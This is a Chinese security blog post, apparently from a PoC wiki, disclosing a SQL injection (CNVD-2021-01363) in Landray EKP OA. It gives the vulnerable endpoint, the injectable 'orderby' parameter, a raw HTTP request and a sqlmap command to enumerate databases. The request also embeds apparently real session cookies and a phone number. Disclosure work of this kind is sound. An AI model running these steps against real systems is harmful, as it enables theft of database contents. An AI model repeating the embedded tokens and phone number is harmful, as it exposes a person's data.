 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hA7aWTTSb6TIR4Ki1ND2sw)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：关于文章🐑**

文章来自 @Miaòa 师傅的投稿, 目前 CNVD 已收录漏洞  

编号为 CNVD-2021-01363, 欢迎各位师傅前来投稿啦~

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4MRe1rOJkEO8WLb9kXMsicKgHXyeyunkicNEgxkTXfChL5JIDygCsZEz4QwqH0TCYHFKfKw7JupkMQ/640?wx_fmt=png)

**二：漏洞描述🐑**

**深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在 SQL 注入漏洞。攻击者可利用漏洞获取数据库敏感信息。**

**三:  漏洞影响🐇**

**测试时间 2021-3-24 前版本**

**四:  漏洞复现🐋**

**存在 SQL 注入的 Url 为**

```
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

**其中存在 SQL 注入的参数为 **ordeby** ， 数据包如下**

```
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251
```

**保存为文件，使用 Sqlmap 跑一下注入**

```
sqlmap -r sql.txt -p orderby --dbs
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4MRe1rOJkEO8WLb9kXMsicKn1BNZ9TKmGj96AnQia9JmtUfYHyEBPfDx2iadXn9NWUtjEAbsQIOUVxw/640?wx_fmt=png)

**经过测试，还存在其他地方的多个 SQL 注入，等收录了在公开出来啦~**

 ****六:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号